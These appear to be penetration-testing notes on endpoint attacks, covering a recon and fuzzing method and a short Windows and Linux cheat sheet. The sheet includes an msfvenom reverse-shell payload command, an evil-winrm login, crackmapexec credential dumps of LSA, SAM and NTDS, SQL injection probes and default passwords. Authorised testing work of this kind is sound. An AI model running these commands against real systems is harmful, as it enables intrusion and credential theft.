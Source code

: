 ## Overview 
Endpoint testing is usually focused on one of three areas: privilege escalation, persistence, or action on objectives. Identifying exploitable vulnerabilities in core operating system functions, software installed on the endpoint, or in misconfigurations of services is half the battle. Most endpoints will also have antivirus, EDR, or other security features in place that you will have to bypass. 
## Theory
### Target Research Methodology
- Initial Recon: 
	- Enumerate the open ports on the host and determine services accessible to you. 
	- Determine if these services allow interaction pre-authentication. 
	- Mark access points which require authentication for future review. 
- Brute Force Discovery:
	- Web services (including APIs) can be fuzzed using directory and DNS brute forcing. If the request header has a `Host` parameter, this can be used to enumerate subdomains rather than relying on DNS. 
	- Services like SMB, SSH, and FTP can be brute forced on occasion if there is no lockout policy in place. If there is a lockout policy, default credentials such as `root:root`, `root:toor`, and `admin:password` should still be attempted. 
		- Hydra, CrackMapExec, and NMAP can all be used for brute force credential guessing. 
- Error Fishing:
	- Attempt to use common control characters to break out of intended execution. Specifically, `;`,`--`,`|`,`>`,`'`, and `"` should be attempted before and after some expected input.
		- Example: `admin'-- -` to attempt SQL injection.
	- Switching protocols, request methods, connection options, etc. can bait out error messages with function names, software versions, etc. 
		- Example: PUT instead of POST for a login form. 
	- Any time an entry point can be fuzzed using an automated tool (Ex. SQLMap), this approach should be considered; however, note that automatic fuzzers have a tendency to crash applications and/or servers if not restricted properly. 
	- Timing attacks can also be used to get error messages. If input is multi-staged it can be useful to delay the second stage or submit multiple of the same stage before moving on. 
	- Tokens/Session Cookies can be deleted/modified to invalidate a session and cause errors. This can be useful when searching for token impersonation or client-side attacks. 
- Research: 
	- Once a service is discovered, the first step is to identify that service and common misconfigurations. Version numbers make vulnerability discovery very easy. 
	- If a service cannot be identified via normal channels, google port numbers, connect using `netcat` or a simple python listener, and research received output. 
## Tools/Commands
### Cisco 
#### Smart Install
### IoT Devices
#### Passback Attacks
### Docker
### Windows
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
#### Unquoted Service Path
Find vulnerable services using PowerShell:
`Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`
- [ ] .lnk files
- [ ] WTFBins
- [ ] BloodHound/SharpHound
- [ ] WinPEAS
Check write permissions in directory before the space: 
`Get-Acl C:\DirectoryName\`
Generate payload:
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f exe-service -o mal.exe`
- [ ] Petit Pottam
- [ ] DLL Hijacking
- [ ] DLL Sideloading
- [ ] DLL Injection
#### Access
##### AppDomain 
##### LOLBins
##### WinRM Shell
Port 5985 open, with credentials
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD>`
#### Privilege Escalation
##### Unquoted Service Path
##### Credential Caches
Dump credential caches
- `crackmapexec smb 127.0.0.1 -u $username -p $password --lsa`
- `crackmapexec smb 127.0.0.1 -u $username -p $password --sam`
Clone domain controller
- `crackmapexec smb 127.0.0.1 -u $username -p $password --ntds --users --enabled` (Requires DA, don't use this without permission from the client)
##### Named Pipe Exploits
##### Privilege Abuse
`SeImpersonate` or `SeAssignPrimaryToken` 
- RottenPotato, JuicyPotato, RoguePotato, PrintSpoofer, and SharpEfsPotato
##### Dropping Malware
Check write permissions in directory before the space: 
`Get-Acl C:\DirectoryName\`
Generate payload:
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f exe-service -o mal.exe`
### Linux
Check for `sudo no password` commands
- `sudo -l`
- [GTFOBins](https://gtfobins.github.io)
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
Find files created by a user
- `find / -user $USER ! -path "*proc*" ! -path "*var*" ! -path "*dev*" 2>/dev/null`
- [ ] `sudo` version
- [ ] `ssh` version
- [ ] Kernel Exploits